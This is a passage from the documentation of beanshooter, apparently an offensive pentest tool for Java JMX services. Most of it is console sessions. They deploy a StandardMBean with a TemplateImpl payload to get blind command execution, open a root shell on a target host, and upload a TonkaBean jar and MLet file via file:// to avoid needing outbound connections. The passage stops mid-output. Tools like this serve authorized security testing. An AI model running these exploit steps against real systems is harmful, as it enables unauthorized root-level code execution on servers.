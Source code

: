 Command execution via the `standard` action is blind and you do not receive the output of your command.
Moreover, by default your command is passed to `Runtime.exec(String str)`, which does not support special
shell features. If you want to use shell features, use the `--exec-array` option and specify your command
like this: `'sh -c echo "my cool command" > /tmp/test.txt'`. With `--exec-array`, *beanshooter* splits the
specified command in three parts and passes them to `Runtime.exec(String[] arr)`. However, it is generally
recommended to use the *TonkaBean* deployment for executing commands:

```console
[qtc@devbox ~]$ beanshooter standard 172.17.0.2 9010 tonka
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=4121868972140 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=4121868972140 from the MBeanServer.
[+] 	MBean was successfully removed.
[qtc@devbox ~]$ beanshooter tonka shell 172.17.0.2 9010
[root@172.17.0.2 /]$ id
uid=0(root) gid=0(root) groups=0(root)
```

The huge advantage compared to the regular `tonka deploy` action is that deployment via the *StandardMBean*
does not require an outbound network connection. If a direct deployment via `standard ... tonka` does not work,
you may be able to upload the *TonkaBean* Jar file and load it via *MLet* and the `file://` protocol:

```console
[qtc@devbox ~]$ beanshooter tonka export --stager-url file:///tmp/
[+] Exporting MBean jar file: ./tonka-bean-4.0.0-jar-with-dependencies.jar
[+] Exporting MLet HTML file to: ./index.html
[+] 	Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+] 	Archive:   tonka-bean-4.0.0-jar-with-dependencies.jar
[+] 	Object:    MLetTonkaBean:name=TonkaBean,id=1
[+] 	Codebase:  file:/tmp/
[qtc@devbox ~]$ beanshooter standard 172.17.0.2 9010 upload tonka-bean-4.0.0-jar-with-dependencies.jar::/tmp/tonka-bean-4.0.0-jar-with-dependencies.jar
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=4825542879735 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=4825542879735 from the MBeanServer.
[+] 	MBean was successfully removed.
[qtc@devbox ~]$ beanshooter standard 172.17.0.2 9010 upload index.html::/tmp/index.html
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=4836961801045 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
```